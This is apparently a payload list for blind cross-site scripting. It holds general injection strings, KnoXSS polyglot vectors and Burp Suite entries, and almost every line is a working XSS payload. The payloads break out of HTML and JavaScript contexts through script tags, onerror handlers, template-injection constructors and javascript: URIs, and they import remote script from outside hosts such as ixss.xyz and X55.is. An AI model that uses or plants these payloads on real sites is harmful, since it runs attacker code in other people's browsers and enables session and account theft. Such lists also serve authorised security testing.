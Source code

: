 ## General Payload Collection:
```bash
-->';"><img src=x onerror=import('//ixss.xyz')>//
```
```bash
-->';"><script src=//ixss.xyz></script><x="
```
```bash
"><img/src/onerror=import('//ixss.xyz')>
```
```bash
$.getScript("//ixss.xyz")
```
```bash
{{_openBlock.constructor('import("//ixss.xyz")')()}}{{constructor.constructor('import("//ixss.xyz")')()}}
```
```bash
javascript:import('//ixss.xyz')
```
```bash
javascript:eval('var a=document.createElement(\'script\');a.src=\'//ixss.xyz\';document.body.appendChild(a)')
```
```bash
';"/><h1>test{{7*7}}
```
```bash
HTML<h1>HTML&gt;h1&lt;Test{{7*7}}[[7*7]]
```

## KnoXSS
>Blind XSS Custom Vector - Short Polyglot (HTML & JS Main Cases)
```
'/*\'/*"/*\"/*</Script><Input/AutoFocus/OnFocus=/**/(import(/https:\\X55.is?1=19473/.source))//>
```
>Blind XSS Custom Vector - Full Polyglot (20+ XSS Cases): Best, for non-restricted inputs.

```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\X55.is?1=19473/.source))}//\76-->
```

## Burpsuite Payloads:
```
bxss
```
```
';\"><script src=//ixss.xyz></script><x=\"
```
```
';\"><img src onerror=import('//ixss.xyz')>
```
```
htmli
```
```
\"/><h1>test{{7*7}}[[7*7]]
```
